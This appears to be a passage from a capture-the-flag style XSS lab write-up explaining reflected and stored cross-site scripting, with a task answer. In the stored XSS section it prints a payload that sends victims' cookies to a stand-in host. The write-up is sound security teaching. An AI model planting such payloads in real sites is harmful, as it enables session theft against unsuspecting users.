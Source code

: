 **Attack Scenarios:**
- Sending malicious links to victims via email or social media
- Embedding malicious iframes on attacker-controlled websites
- Stealing session cookies when victims click crafted links
- Redirecting users to phishing sites

### Testing for Reflected XSS

**Common Entry Points:**
- URL query string parameters
- URL file path components
- HTTP headers (less common but possible)
- Form data in POST requests

**Testing Methodology:**
1. Identify all input points that reflect data back to the page
2. Test each point with basic XSS payloads
3. Analyze how the input is reflected in the page source
4. Modify payloads based on the reflection context

### Task Challenge

**Question**: Where in a URL is a good place to test for reflected XSS?

**Answer**: **Parameters** (or **Query String**)

**Explanation**: URL parameters are the most common place where user input gets reflected back to the page without proper validation.

---

## Task 4: Stored XSS - Persistent Threats

### Understanding Stored XSS

Stored XSS occurs when the XSS payload is stored in the web application (typically in a database) and then executed when other users visit the affected page. This makes it more dangerous than reflected XSS because it affects multiple users persistently.

### How Stored XSS Works

**Example Scenario:**
A blog website allows users to post comments without properly validating the content:

**Attacker posts comment:**
```html
Great article! <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

**Result**: Every user who views the blog post will have their cookies stolen.

### Attack Flow Visualization

1. **Attacker Input**: Malicious script submitted through comment form
2. **Storage**: Application stores the unfiltered script in the database
3. **Victim Access**: Legitimate users visit the page
4. **Execution**: Browser executes the stored malicious script
5. **Impact**: Victim's data is compromised
